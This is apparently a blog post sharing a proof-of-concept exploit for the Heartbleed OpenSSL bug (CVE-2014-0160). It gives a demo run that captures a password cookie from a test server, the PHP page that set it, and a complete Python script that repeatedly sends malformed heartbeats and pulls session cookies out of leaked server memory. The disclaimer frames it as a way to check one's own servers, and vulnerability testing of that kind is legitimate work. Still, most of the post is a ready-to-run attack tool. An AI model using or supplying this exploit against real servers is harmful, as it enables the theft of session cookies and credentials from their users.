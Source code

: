 ```yaml
---
layout: post
title: PoC to capture data via the Heartbleed Bug
description: "A simple proof of concept on how to capture data on server running OpenSSL"
tags: [heartbeat bug, hacking, exploitation]
comments: true
---
```


This code is not mine nor I claim credits for it. You should use it only on your servers. It is very much against the law if your run it on servers that you do not own. This code is for educational purposes only. I take no responsibility for you doing something stupid with it. Use it to check if your servers are vulnerable.

This is in regards to the bug that was found in OpenSSL versions 1.0.1 to 1.0.1f. These versions do not properly handle hearbeat extension. More info can be read here, [CVE-2014-0160](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160).

### Testing Ubuntu 12.04.3 LTS running OpenSSL 1.0.1

{% highlight c %}
$ python heartbleed-altered.py 192.168.199.135 secure
secure
securepassword=iamencrypted
{% endhighlight %}

The command above will try to capture section of a memory on the server running a vulnerable OpenSSL version. This is not even a mitm attack. This tool is directly connected to the Apache server via SSL(https). I noticed though sometimes, it doesn't capture anything. I'm pretty sure that the full working code is not being shared which I think is appropriate. The output shows it was able to capture the securepassword cookie. I would like to emphasize that this is totally different from sniffing.

On my browser, I visited http://192.168.199.135/index.php
{% highlight c %}
<?php
    session_start();
    setcookie("securepassword", "iamencrypted");
    setcookie("secureusername", "highlysecured");
?>
{% endhighlight %}

This is how it looks in Chrome Developer Tools
<figure>
    <img src="/images/cookie-on-chrome-dev-tools.png">
</figure>


[Can be downloaded here](https://gist.github.com/c0debreaker/10225656)

{% highlight c %}
#!/usr/bin/python

# Connects to servers vulnerable to CVE-2014-0160 and looks for cookies, specifically user sessions.
# Michael Davis (mike.philip.davis@gmail.com)

# Based almost entirely on the quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import select
import sys
import string
import struct
import socket
import time
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-c', '--cookie', type='str', default='session', help='Cookie to look for. (default: session)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')


class HeartBleeder(object):

    server_response = None
    socket = None
    hostname = ''
    port = 443
    found_sessions = set()
    cookie = 'session'
    cookie_length = 56

    def __init__(self, hostname='', cookie=''):
        self.hostname = hostname
        self.cookie = cookie

    def connect(self):
        """
        Connects to the remote server.
        """
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        self.socket.connect((self.hostname, self.port))
        sys.stdout.flush()
        self.socket.send(hello)
        sys.stdout.flush()

    def rcv_response(self):
        while True:
            _type, version, payload = self.rcv_message()
            if _type is None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if _type == 22 and ord(payload[0]) == 0x0E:
                break

    def rcv_message(self):

        record_header = self.rcv_all(5)
        if record_header is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        _type, version, line = struct.unpack('>BHH', record_header)
        payload = self.rcv_all(line, 10)
        if payload is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        # print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return _type, version, payload

    def rcv_all(self, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([self.socket], [], [], 5)
            if self.socket in r:
                data = self.socket.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def try_heartbeat(self):
        self.socket.send(hb)
        while True:
            _type, version, self.payload = self.rcv_message()
            if _type is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if _type == 24:
                # print 'Received heartbeat response:'
                self.parse_response()
                if len(self.payload) > 3:
                    pass
                    # print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if _type == 21:
                print 'Received alert:'
                self.hexdump(self.payload)
                print 'Server returned error, likely not vulnerable'
                return False

    def parse_response(self):
        """
        Parses the response from the server for a session id.
        """
        ascii = ''.join((c if 32 <= ord(c) <= 126 else ' ')for c in self.payload)
        index = string.find(ascii, self.cookie)
        if index >= 0:
            info = ascii[index:index + self.cookie_length]
            session = info.split(' ')[0]
            session = string.replace(session, ';', '')
            if session not in self.found_sessions:
                self.found_sessions.add(session)
                print session

    def hexdump(self, payload):
        """
        Prints out a hexdump in the event that server returns an error.
        """
        for b in xrange(0, len(payload), 16):
            line = [c for c in payload[b:b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in line)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.')for c in line)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def scan(self):
        self.connect()
        self.rcv_response()
        self.try_heartbeat()


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    cookies_str = 'session'
    if len(args) > 1:
        cookies_str = args[1]

    print cookies_str

    while True:
        heartbeat = HeartBleeder(hostname=args[0], cookie=cookies_str)
        heartbeat.scan()


if __name__ == '__main__':
    main()
{% endhighlight %}